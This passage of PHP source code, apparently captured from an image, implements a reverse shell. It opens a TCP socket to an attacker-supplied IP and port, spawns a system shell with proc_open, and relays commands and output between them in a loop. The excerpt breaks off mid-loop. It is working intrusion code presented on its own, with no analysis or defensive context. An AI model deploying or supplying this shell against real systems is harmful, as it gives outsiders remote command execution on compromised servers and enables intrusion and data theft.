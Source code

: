 ```php
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
```